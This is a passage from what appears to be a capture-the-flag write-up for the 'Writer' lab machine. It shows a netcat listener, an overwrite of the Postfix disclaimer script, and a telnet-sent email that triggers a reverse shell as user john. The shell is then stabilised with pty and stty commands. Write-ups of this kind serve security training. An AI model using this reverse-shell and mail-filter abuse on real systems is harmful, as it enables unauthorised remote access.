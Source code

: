 Then we set up our listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Copy the disclaimer over the original one and send an email as kyle to root using telnet.

```
kyle@writer:~$ cp disclaimer /etc/postfix/disclaimer
kyle@writer:~$  telnet 127.0.0.1 25
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 writer.htb ESMTP Postfix (Ubuntu)
HELO writer.htb
250 writer.htb
MAIL FROM: kyle@writer.htb
250 2.1.0 Ok
RCPT TO: root@writer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
aaaaa

.
250 2.0.0 Ok: queued as E600B75B
```

We instantly get a reverse shell as john, which we upgrade again to stabilize it.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.182.107.
Ncat: Connection from 10.129.182.107:49266.
bash: cannot set terminal process group (89078): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<fix$ python3 -c 'import pty;pty.spawn("/bin/bash")'
john@writer:/var/spool/postfix$ export TERM=xterm
export TERM=xterm
john@writer:/var/spool/postfix$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

john@writer:/var/spool/postfix$
```
